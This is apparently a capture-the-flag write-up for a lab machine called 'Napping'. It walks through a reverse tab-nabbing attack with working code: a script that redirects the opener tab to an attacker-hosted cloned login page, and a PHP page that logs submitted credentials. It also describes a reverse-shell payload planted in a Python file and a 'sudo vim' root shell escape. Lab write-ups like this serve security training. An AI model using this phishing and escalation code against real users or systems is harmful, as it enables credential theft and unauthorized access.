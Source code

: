 # Napping

- Recon revealed 22 and 80. 
- On 80 was a website with a login form (on index.php), register page, reset password page, and a welcome page where you could submit any link with the promise the admin would 'review' it.
- Additionally, there was an /admin/login.php page.

## Foothold

This room was quite tricky - it took me a while to make the connection from the name and the hint: 

**To hack into this machine, you must look at the source and focus on the target.**

Initially I tried XSS but that wasn't working - it seemed to, as in I could place payloads that would affect myself, but the admin wasn't affected. Eventually I made the jump from 'target' and napping - after submitting a link, it was presented back to you as a hyperlink. This was setup with `target="_blank"` - if the admin was setup the same way, then this might be vulnerable to a **tab napping** attack, also called a tab na**bb**ing attack.

> Tab napping is a form of phishing: you create a link with target `_blank`, which will open in a new tab. On the page the user opens, you have script that manipulates the tab the user just came from, via `window.opener`. The idea is while they are on your new tab, you change their old tab into a cloned login form or similar, in the hope that when they return they assume their session has timed out and they re-login.

Also a good link for this: https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

So I set this up, using a PHP webserver on my attack box (`php -S 0.0.0.0:1234` - I had to install the PHP cli on the THM attack box), hosting two files:

**landing.html**:

```html
<script>
        window.opener.location = 'http://10.10.150.135:1234/login.php';
</script>
```

and **login.php**, which logs any input it gets to std out:

```php
<?php
if (isset($_POST["username"])) {
        $stdout = fopen('php://stdout', 'w');
        fwrite($stdout, $_POST["username"] . ":" . $_POST["password"]);
}
?>


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">

        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

Few notes about the above. I spent hours on this and couldn't get it working, because I was cloning the *wrong* login page. As I eventually discovered, the script simulating the admin looks for the presence of the work 'Admin' in the text - if it finds it it posts, otherwise it does nothing.

With this setup, submitting the landing.html url to the form would result in the admin visiting it (on a 1 minute schedule), then visiting my login.php, and then submitting their credentials. These credentials worked to get ssh as `daniel`.

## Path to root

After getting past the tab napping, the rest was easy.

- daniel was a member of the administrators group, which allowed him to write a file called query.py in the other user's home folder, /home/adrian
- adding a reverse shell payload to this (or any python, like something which copied `sh` and set the suid bit) allowed me to get a session as adrian.
- adrian could run vim as sudo, so I got a root shell with `sudo vim -c ':!/bin/sh'`

## Bonus

The script used to simulate the admin for this was as follows:

```python
import requests
import re
import mysql.connector
import string
import random

mydb = mysql.connector.connect(
        host="localhost",
        user="adrian",
        password="[redacted]",
        database="website"
        )

mycursor = mydb.cursor()

mycursor.execute("SELECT * FROM links")

myresult = mycursor.fetchall()

data = {
        "username":"daniel",
        "password":"[redacted]"
        }

N = 26

cookie =  ''.join((random.choice(string.ascii_lowercase + string.digits) for x in range(N)))

headers = {
        "PHPSESSID":cookie,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0"
        }

for x in myresult:
    url1 = x[0]


    try:
        r1 = requests.get(url1,headers=headers,timeout=2)
        search = r1.text
        if (search.find('location.replace') != -1):
            match = re.findall("http(.*)\);",search)
            new_url = 'http' + match[0].rstrip(match[0][-1])
            r2 = requests.get(new_url,headers=headers,timeout=2)
            admin_search = r2.text

            if (admin_search.find('Admin') != -1):
                r3 = requests.post(new_url,data=data,headers=headers,timeout=2)

        elif (search.find('opener.location') != -1):
            match = re.findall("http(.*);",search)
            new_url = 'http' + match[0].rstrip(match[0][-1])
            r2 = requests.get(new_url,headers=headers,timeout=2)
            admin_search = r2.text

            if (admin_search.find('Admin') != -1):
                r3 = requests.post(new_url,data=data,headers=headers,timeout=2)

    except requests.exceptions.ReadTimeout:
        continue
```

Quite clever, while also a little dumb: as its not actually processing the javascript, you can have a fun time trying to get clever with the xss to no avail. I tried stealing the cookie multiple ways, which is funny as above its shown that its completely random. Also doing something like `window.opener = <my url> + document.cookie` would result in some weird outputs, specifically receiving a request like `/+document.cookie`.

Finally, it also means you can probably hack the above with one file (could be done with some sort of netcat thing or php id wager):

```
Admin
location.replace("http://10.10.170.246:4444")
```
